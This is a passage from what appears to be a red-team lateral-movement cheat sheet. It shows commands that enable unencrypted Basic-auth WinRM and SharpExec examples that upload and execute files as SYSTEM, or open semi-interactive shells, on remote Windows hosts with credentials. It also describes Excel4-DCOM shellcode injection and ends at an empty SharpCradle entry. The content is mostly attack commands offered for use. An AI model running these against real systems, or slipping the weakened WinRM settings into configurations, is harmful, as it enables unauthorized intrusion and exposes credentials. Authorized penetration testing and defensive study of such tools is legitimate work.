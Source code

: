 Linux to Windows Remoting

  - In windows run
```
    winrm set winrm/config/Service/Auth @{Basic="true"}
    winrm set winrm/config/Service @{AllowUnencrypted="true"}
```

  - In linux run
```
    $cred = Get-Credential
    Enter-PSSession -ComputerName 'winserver1' -Credential $cred -Authentication Basic
```

PowerShell Remoting over SSH
```
    Enter-PSSession -Hostname <IP or FQDN> -Username james -SSHTransport
```    

#### [SharpExec](https://github.com/anthemtotheego/SharpExec)

Examples 
========

Note - All modules require Administrative rights on the target systems
Note - If the user who runs SharpExec has administrative rights to the target system, username/password/domain options on not required.

PSExec Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMI Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMIExec Module:

Starts semi-interactive shell on remote system as TargetUser

```SharpExec.exe -m=wmiexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```


#### Excel4-DCOM

[Excel4-DCOM](https://github.com/outflanknl/Excel4-DCOM)

PowerShell and Cobalt Strike scripts for lateral movement using Excel 4.0 / XLM macros via DCOM (direct shellcode injection in Excel.exe).


#### SharpCradle

[SharpCradle](https://github.com/anthemtotheego/SharpCradle.git)

```